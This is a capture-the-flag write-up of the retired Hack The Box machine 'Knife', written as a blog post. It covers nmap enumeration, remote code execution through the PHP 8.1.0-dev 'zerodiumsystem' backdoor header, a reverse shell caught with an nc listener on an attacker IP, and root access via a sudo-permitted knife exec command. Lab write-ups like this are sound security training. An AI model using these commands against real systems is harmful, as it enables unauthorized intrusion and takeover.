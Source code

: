 ```yaml
---
layout: post
title: "HTB: Knife"
author: Andrew Cherney
date: 2023-02-19 20:18:57
tags: htb easy-box
icon: "assets/icons/knife.png"
post_description: "Simplicity at its finest. A quick backdoor exploit from a vulnerable php version, and then a trip to GTFOBins can root this box. Bare bones and to the point."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h2>Enumeration</h2>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Knife]
└──╼ $nmap -sC 10.10.10.242
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-21 20:13 CST
Nmap scan report for 10.10.10.242
Host is up (0.047s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http
|_http-title:  Emergent Medical Idea
```

<h2>Port 80 - http</h2>

![EMA front page](/img/knife/Knife_front_page.png)

I scour through some html and javascript code before checking the Wappalyzer add-on. This lets me see what is being used in the page, everything from CDNs and coding languages to OS and server versions (all dependent on how locked down the data leak is). 

<h1>User as james</h1>

<h2>Zerodium PHP</h2>

![php version](/img/knife/Knife_wappalyzer_php_version.png)

The version 8.1.0 of php (if the dev version) had a specific backdoor built in. If you add <code>User-Agentt: zerodiumsystem('commands');</code> as a header you can pass remote code to run on the underlying machine through php. [This github repo](https://github.com/flast101/php-8.1.0-dev-backdoor-rce) has two versions of the exploit for ease of use. 

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Knife]
└──╼ $python3 php-8.1.0-backdoor.py http://10.10.10.242 10.10.14.14 7777
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Knife]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.242] 58574
bash: cannot set terminal process group (1038): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ cd /home/james
cd /home/james
james@knife:~$ cat user.txt
cat user.txt
1bfa9885436-------------------
```


<h1>Root</h1>

<h2>GTFOBins</h2>

```bash
james@knife:~$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Well this is a cut and dry easy box solution. GTFOBins will have a command to use for priv esc if I can use sudo with it. 

```bash
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'
sudo knife exec -E 'exec "/bin/sh"'
whoami
root
cat /root/root.txt
fdafbecbde81---------------------
```

